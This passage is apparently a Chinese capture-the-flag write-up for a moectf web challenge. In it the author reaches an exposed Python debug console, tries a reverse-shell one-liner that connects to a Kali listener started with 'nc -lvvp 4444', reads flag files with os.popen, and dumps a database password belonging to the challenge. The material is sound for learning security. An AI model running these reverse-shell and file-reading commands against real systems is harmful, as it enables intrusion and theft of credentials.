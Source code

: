 经过一番搜索，原来是在域名后加/console即可进入需求界面

![image-20230923204101148](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20230923204101148.png)

成功进入console，可执行最难的命令——加法（）

![image-20230923204227824](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20230923204227824.png)

**7.通过执行python命令反弹shell，获取靶机**

进入console之后肯定不能只做加法（），但是我也不知道该怎么进入后台，所以又只能开搜

首先便尝试python反弹shell，kali开启监听，本地的kali以太网ip可以用ifconfig命令获取

192.168.75.130

首先开启kali监听，命令：nc -lvvp 4444

然后在console执行查到的反弹shell命令

``` python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.75.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

不知道为什么无法执行，可能是被ban了（？），我再找找还有没有其他的命令

好像是connect被ban了，这就有点棘手了呀

**马后炮来了：看你以后还会不会内网直接连内网**

好吧我傻了，直接console就能读文件了

先学点linux命令吧（）

原来进到console就算获得靶机了啊，我这是舍近求远了（）

直接os.popen('cat cd /flag').read()

![image-20230924205939022](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20230924205939022.png)

拿到第一个flag

**flag1——moectf{Information-leakage-Is-dangerous!**

操，还分三个（）

然后用我之前学到的一个逆天命令os.popen(’cat 反引号+ls+反引号‘).read()，单行执行读取和抓取

果然爆出来一堆东西

md怎么粘到markdown上什么都看不见了（恼,干脆不粘了

这里我看到之前改session的时候应该是把power改成root才对，可是我上面改的是admin啊（？）

只看到有些数据库的信息，包括用户名密码和端口，可是我尝试用目标ip+端口打不开，不知道是我哪里搞错了呢

**user="root",  # 数据库用户名\n                    passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",  # 数据库密码\n** 

但是好像确实有些东西是没有权限的...

像/etc/passwd就读取不了，难道还是得尝试提权？？？
